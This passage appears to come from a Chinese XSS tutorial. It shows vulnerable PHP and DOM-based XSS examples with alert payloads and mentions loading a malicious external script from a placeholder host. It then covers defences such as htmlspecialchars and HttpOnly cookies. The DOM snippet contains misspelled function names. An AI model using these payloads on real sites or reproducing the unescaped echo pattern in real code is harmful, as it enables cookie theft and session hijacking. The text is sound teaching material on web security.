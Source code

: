 ### 0x06 XSS简单示例
```
反射型xss简单示例:
    • <?php
          echo $_GET['x'];
      ?>
    • 提交：
      /xss.php?x=<script>alert(1)</script>
    • 服务端解析时就会触发弹窗
```
```
下面是一段简单的DOM型XSS示例：
<script>
    var temp = document.URL; //获取URL
    var index = document.URL.indexOf("content");
    var par = temp.substrint(index);
    document.write(decodeURL(par)); //输入获取内容
</script>
上述代码的意思是获取URL中content参数的值，并且输出，若输入http://www.xxx.com/dom.html?content=<script>alert(/xss/)</script>，就会产生XSS漏洞。
```
```
只要在script标签中添加JavaScript代码，就能实现一些“特殊效果”，但通常在真实攻击中
一般使用<script src="http://www.xxx.com/a.txt"></script>的方式来加载外部脚本，
a.txt中就存放着恶意脚本。

注：JavaScript加载的脚本文件可以是任意扩展名，甚至没有也行，只要加载的文件中含有
    JavaScript代码就会被执行。
```

### 0x07 XSS的防御
* 过滤输入与输出(重点)

使用htmlspecialchars()和htmlentities()将一些预定义的字符转换为HTML实体
```
<?php
    @$html = $_GET['x'];
    if ($html){
        echo htmlspecialchars($html);
    }
?>
```

* HttpOnly

```
HttpOnly并不能防御XSS，但它能解决XSS漏洞后面的Cookie劫持攻击，防止XSS会话劫持
```